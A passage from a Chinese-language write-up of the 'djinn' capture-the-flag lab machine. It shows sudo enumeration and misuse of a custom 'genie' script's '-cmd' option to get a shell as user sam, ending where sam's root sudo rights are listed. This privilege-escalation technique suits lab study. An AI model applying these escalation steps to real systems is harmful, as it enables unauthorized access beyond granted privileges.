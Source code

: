 通过`sudo -l`命令知道该用户可无密码执行*sam*用户下的*/usr/bin/genie*命令：

```shell
nitish@djinn:~$ sudo -l
sudo -l
Matching Defaults entries for nitish on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nitish may run the following commands on djinn:
    (sam) NOPASSWD: /usr/bin/genie
```

通过`genie -h`命令查看该脚本用法，发现`-e`参数可执行命令。

```shell
nitish@djinn:~$ genie -h
genie -h
usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

I know you've came to me bearing wishes in mind. So go ahead make your wishes.

positional arguments:
  wish                  Enter your wish

optional arguments:
  -h, --help            show this help message and exit
  -g, --god             pass the wish to god
  -p SHELL, --shell SHELL
                        Gives you shell
  -e EXEC, --exec EXEC  execute command
```

不过尝试后发现并不能成功执行，在使用`man`查看命令手册时发现`-cmd`也具有同样作用。

```shell
nitish@djinn:~$ sudo -u sam genie -cmd id
sudo -u sam genie -cmd id
my man!!
$ id
id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
$ whoami
whoami
sam
$ sudo -l
sudo -l
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago
```
